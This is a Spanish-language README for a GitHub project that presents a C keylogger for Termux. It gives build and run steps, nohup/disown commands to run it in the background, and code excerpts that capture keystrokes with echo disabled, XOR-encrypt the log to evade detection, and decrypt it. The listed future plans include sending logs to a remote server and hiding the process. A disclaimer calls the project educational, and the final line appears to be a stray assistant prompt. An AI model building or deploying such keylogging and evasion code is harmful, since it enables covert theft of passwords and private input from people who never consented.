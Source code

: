
🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección fácil. Además, puede ejecutarse en segundo plano sin interferir con otras aplicaciones.


---

📌 Características

✅ Captura teclas sin necesidad de presionar Enter.

✅ Guarda las teclas en un archivo de log (log.txt).

✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.

✅ Corre en segundo plano usando nohup y disown.

✅ Descifrado de datos con un programa en C.

✅ Filtra caracteres no imprimibles para evitar datos corruptos.


---

🔧 Instalación y Uso

1️⃣ Clonar el repositorio

git clone https://github.com/V1nt3r4/keylogger_tool.git
cd keylogger_tool

2️⃣ Compilar el keylogger

clang keylogger.c -o keylogger

3️⃣ Ejecutar el keylogger

./keylogger

🔹 Para ejecutarlo en segundo plano:

nohup ./keylogger > /dev/null 2>&1 &
disown

🔹 Para detenerlo:

pkill keylogger

4️⃣ Ver el contenido del log (cifrado)

cat log.txt

5️⃣ Descifrar el log

clang decrypt.c -o decrypt
./decrypt


---

📜 Explicación del Código

🔹 1️⃣ Captura de teclas (get_key())

```
char get_key() {
    struct termios oldt, newt;
    char ch;
    tcgetattr(STDIN_FILENO, &oldt);
    newt = oldt;
    newt.c_lflag &= ~(ICANON | ECHO);
    tcsetattr(STDIN_FILENO, TCSANOW, &newt);
    ch = getchar();
    tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
    return ch;
} ```

📌 Lógica:

1. Modifica la terminal para desactivar el buffer de línea y eco de caracteres.


2. Captura una tecla en tiempo real.


3. Restaura la configuración original de la terminal.




---

🔹 2️⃣ Escritura segura en el archivo (log.txt)

if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
}

📌 Lógica:

1. Filtra caracteres imprimibles para evitar datos corruptos.


2. Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.


3. fflush(file); asegura que los datos se guarden inmediatamente.




---

🔹 3️⃣ Manejo de señales (CTRL+C)

void handle_exit(int sig) {
    if (file) fclose(file);
    printf("\n[+] Keylogger detenido. Datos guardados en %s\n", LOG_FILE);
    exit(0);
}

📌 Lógica:

1. Intercepta CTRL+C para evitar que se cierre inesperadamente.


2. Cierra correctamente el archivo log.txt antes de salir.




---

🔹 4️⃣ Descifrado de datos (decrypt.c)

int ch;
while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
}

📌 Lógica:

1. Lee cada carácter del archivo log.txt.


2. Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.


3. Muestra el resultado en pantalla.




---

💻 Aplicaciones en Ciberseguridad

🔹 1️⃣ Seguridad Ofensiva (Pentesting)

Se usa para testear seguridad en sistemas Linux.

Puede demostrar fallos en la protección de terminales.

Puede probar la efectividad de antivirus y herramientas de detección.


🔹 2️⃣ Seguridad Defensiva

Ayuda a detectar comportamiento sospechoso en procesos.

Puede ser usado para analizar técnicas de malware y crear contramedidas.

Demuestra la importancia de proteger stdin en Linux.


🔹 3️⃣ Educación y Entrenamiento

Permite entender cómo funciona la captura de eventos de teclado en Linux.

Introduce el concepto de cifrado XOR en aplicaciones de seguridad.

Enseña cómo ocultar procesos en sistemas basados en Unix.



---

⚠️ Advertencia Legal

Este keylogger fue desarrollado con fines educativos y de auditoría en ciberseguridad.
El uso de este software en sistemas sin permiso es ilegal y puede tener consecuencias penales.

Úsalo bajo tu propia responsabilidad y solo en entornos controlados.


---

📢 Contribuciones

Si tienes ideas para mejorar este proyecto, ¡haz un pull request o abre un issue en GitHub!

🚀 Contacto: [Tu email o GitHub]


---

🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).


---

📌 Conclusión

Este proyecto muestra cómo funciona un keylogger en C, su aplicación en seguridad ofensiva y defensiva, y la importancia de proteger sistemas contra este tipo de ataques.

Si quieres aprender más sobre seguridad en Linux y programación en C, este es un excelente punto de partida. 🚀


---

📢 ¿Quieres agregar algo más al README?

 